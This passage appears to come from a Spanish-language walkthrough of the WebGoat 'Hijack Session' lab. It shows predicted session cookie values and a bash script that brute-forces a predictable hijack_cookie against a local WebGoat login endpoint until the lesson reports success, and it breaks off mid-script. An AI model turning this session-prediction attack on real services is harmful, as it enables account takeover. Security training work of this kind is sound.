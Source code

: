 ```bash
hijack_cookie=4745395612611424149-1686454368035
hijack_cookie=4745395612611424149-1686454368034
hijack_cookie=4745395612611424149-1686454368033
hijack_cookie=4745395612611424149-1686454368032
hijack_cookie=4745395612611424149-1686454368031
hijack_cookie=4745395612611424149-1686454368030
hijack_cookie=4745395612611424149-1686454368029
hijack_cookie=4745395612611424149-1686454368028
```

Ahora solo nos queda hacer la petición con cada cookie hasta que obtengamos una respuesta positiva

```bash
#!/bin/bash
limit=$2
diff=$4
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))		

	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	diferencia2_tmp=$diferencia2

	parte1_tmp=$parte1
	parte2_tmp=$parte2	
	
	if [ $diferencia1 -gt $diff ] && (($parte1 != $diferencia1)); then
		echo "hijack_cookie=$parte1($diferencia1)-$parte2_tmp($diferencia2)! ¡Alguien estuvo antes!"
		parte1_aumt=$((parte1-1))
		hijack_cookie_temp="hijack_cookie=$parte1_aumt-?"
		echo "¿hijack_cookie=$parte1_aumt-?"
		for i in $(seq 1 $((diferencia2_tmp)))
		do
			marca_temporal=$((parte2_tmp-i))
			hijack_cookie_temp="hijack_cookie=$parte1_aumt-$marca_temporal"
			echo "$hijack_cookie_temp"
			salida=$(curl -v -s -k -X  'POST' \
			-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
			-H "Cookie: JSESSIONID=$1; $hijack_cookie_temp;"  \
			--data-raw $'username=foo&password=bar' \
			'http://localhost:8080/WebGoat/HijackSession/login')
			lessonCompleted=$(echo $salida | jq -r '.lessonCompleted')

			if ($lessonCompleted); then
				echo "Listo! la cookie era $hijack_cookie_temp"
				echo $salida | jq .
				else
				printf '\nNope!\n\n'
			fi
		done		
	  	break
	else
```